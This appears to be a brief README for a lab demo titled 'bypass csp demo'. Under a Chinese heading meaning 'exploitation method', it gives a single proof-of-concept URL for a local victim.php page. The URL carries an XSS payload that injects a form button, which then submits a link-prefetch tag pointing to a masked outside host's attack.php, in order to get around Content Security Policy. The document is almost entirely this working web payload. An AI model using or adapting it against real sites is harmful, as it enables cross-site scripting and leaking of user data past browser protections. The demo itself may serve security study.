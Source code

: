 #bypass csp demo


##利用方法

http://localhost/csp/victim.php?xss=<input value="CLICK ME FOR POC" type="submit" formaction="" form="subscribe" formmethod="get" /><input type="hidden" name="xss" form="subscribe" value="<link rel='prefetch' href='http://*.*.*.*/attack.php'>"/>
